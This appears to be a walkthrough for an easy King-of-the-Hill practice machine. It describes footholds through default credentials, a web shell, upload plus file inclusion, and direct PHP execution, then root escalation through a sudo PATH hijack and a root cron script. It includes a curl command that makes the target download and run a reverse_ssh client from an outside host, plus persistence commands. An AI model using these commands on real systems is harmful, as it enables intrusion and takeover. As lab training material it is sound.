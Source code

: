 # H1: Easy KOTH machine

Has a website on 8000, 8001, 8002 and 80.

Path to foothold:

- :8000 at /vbcms has a login form that can be passed with admin:admin. you can then edit the content of the home and about pages etc, injecting a web shell. this gets code execution as `serv1`
- :8001 has a support page that allows you to upload any file as long as its extension is .jpg. then the home page has a trivial file include, which allows you to achieve PHP LFI with your uploaded file. this will get you code execution as `serv2`
- :8002 has a PHP tutorial site, allowing direct execution of whatever PHP you supply (just remember to end lines with a semi colon). this gets you code execution as `serv3`
  - there is no nc on the machine. using reverse_ssh, a payload like `system("wget RHOST:1234/client -O /home/serv3/c && chmod +x /home/serv3/c && /home/serv3/c");` works
  - curl command: 
  
    ```
    curl -d "code=system(%22wget+10.10.10.157%3A1234%2Fclient+-O+%2Fhome%2Fserv3%2Fc+%26%26+chmod+%2Bx+%2Fhome%2Fserv3%2Fc+%26%26+%2Fhome%2Fserv3%2Fc%22)%3B" 10.10.136.24:8002/trycode
    ```

Path to root:

- `serv2` can under sudoers run a script (`serv2 ALL=(ALL:ALL) SETENV:NOPASSWD: /usr/bin/restartServer`) that eventually calls systemctl, and preserves env vars. by creating a file called `systemctl` in /tmp, putting /bin/sh inside it, marking it executable and then setting path to include tmp you can privect to root:

  `echo /bin/sh > /tmp/systemctl && chmod +x /tmp/systemctl && sudo PATH=/tmp:$PATH /usr/bin/restartServer`
  
- `serv3` has a backup.sh script under backups in their home folder that root will run every minute. simply popping a rev shell payload in there will get root.
  - this method has the advantage that it will get called continuosly and might be missed by king squatters
  - note the file needs to be made writable first, `chmod +w /home/serv3/backups/backup.sh`, and if using a binary like reverse_ssh, put it in serv3's home folder not temp.

    ```
    chmod +w /home/serv3/backups/backup.sh
    echo /home/serv3/c >> /home/serv3/backups/backup.sh
    rm /home/serv3/c # after connection is made
    ```

## Flags

- /root/root.txt
- /var/www/serv4/index.php
- /var/lib/rary
- /usr/games/fortune
